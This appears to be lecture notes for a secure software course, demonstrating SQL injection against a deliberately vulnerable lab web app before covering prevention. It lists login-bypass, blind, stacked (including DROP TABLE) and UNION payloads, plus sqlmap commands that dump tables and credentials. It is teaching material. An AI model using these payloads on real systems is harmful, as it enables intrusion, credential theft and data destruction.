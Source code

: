 
## Security Testing (OWASP ZAP  Getting Started Guide)

<https://github.com/zaproxy/zaproxy/wiki/Downloads>

ZAP active scan

## SQL Injection
https://github.com/celalceken/InsecureWebApplicationProject

Switch to 1.2.0 SQL Injection

Bypassing Login Screens

Payload: A2' or '1'='1';--
Payload: A2' or '1';--
Payload: A1';--

Payload: admin'#  // (switch to mysql)


### Blind SQL Injection 

<https://www.owasp.org/index.php/Blind_SQL_Injection>

Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer 
based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated 
the code that is vulnerable to SQL injection.

When an attacker exploits SQL injection, sometimes the web application displays error messages from the database complaining that the SQL Query's syntax 
is incorrect. Blind SQL injection is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. 
When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. 
This makes exploiting the SQL Injection vulnerability more difficult, but not impossible.

Switch to 1.2.0 SQL Injection

In the Login Page

Payload: asdf' AND 3930=(SELECT 3930 FROM PG_SLEEP(5)) AND 'gRqx'='gRqx


### Stacked SQL Injection
Prepared statements are preveting multiple query execution //﻿"cannot insert multiple commands into a prepared statement"



http://192.168.56.103/SecureSoftwareDevelopment/Lecture3WebApplicationArchitecture/1Examples/8JSONPHP.php

Payload: '; insert into table1 values( 5, 'toX', 'toY', 4 );--

Payload: ';drop table "table2"; --

### Union Injections 
Basically you can poison query to return records from another table.

http://192.168.56.103/SecureSoftwareDevelopment/Lecture3WebApplicationArchitecture/1Examples/8JSONPHP.php

A' UNION select adi, soyadi from "AkademikPersonel";--

### sqlmap

Switch to 1.3.1 Switch to MySQL DB -> SQL Injection


sqlmap hakkında ayrıntılı bilgi için : <https://github.com/sqlmapproject/sqlmap/wiki/Usage>


sqlmap -u "http://192.168.56.103/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" --dbs --level=5 --risk=3 --flush-session
sqlmap -u "http://192.168.56.103/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" -D obs --tables
sqlmap -u "http://192.168.56.103/InsecureWebApplicationProject/Dogrula.php" --data "personelNo=a&sifre=a" -D obs -T AkademikPersonel --dump

--flush-session parametresi ile yeni oturum (yeni tarama) açılır...


> sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" -f (fingerprint) vt sürümü
root@kali:~# sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" -f

> sqlmap -u "http://192.168.56.103/InsecureWebApplication/Dogrula.php" --data "personelNo=a&sifre=a" --current-user

--hostname, --current-db, --users, --passwords, --privileges, --roles


## SQL Injection Prevention

https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

a. Input filtering
    if ($userSession->login(filter_var($_POST['personelNo'], FILTER_SANITIZE_STRING), $_POST['sifre'], FILTER_SANITIZE_STRING))

b. Query Parameterization:
    In order to mitigate SQL injection, untrusted input should be prevented from being interpreted as part of a SQL command.
    The best way to do this is with the programming technique known as ‘Query Parameterization’. In this case, the SQL statements
    are sent to and parsed by the database server separately from any parameters.

c. Prepared statement

d. Stored Procedures

e. Encoding

